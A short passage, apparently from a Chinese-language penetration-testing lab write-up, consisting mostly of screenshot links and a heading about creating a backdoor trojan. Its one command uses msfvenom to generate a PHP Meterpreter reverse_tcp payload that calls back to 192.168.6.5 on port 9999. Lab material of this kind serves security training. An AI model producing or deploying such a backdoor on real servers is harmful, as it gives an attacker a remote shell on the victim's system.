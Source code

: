 ![image-20250312232713673](./assets/image-20250312232713673.png)

 



### 利用msfvenom生成后门木马

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.6.5 lport=9999 -f raw >9999.php
```

![image-20250312232721654](./assets/image-20250312232721654.png)

![image-20250312232724360](./assets/image-20250312232724360.png)
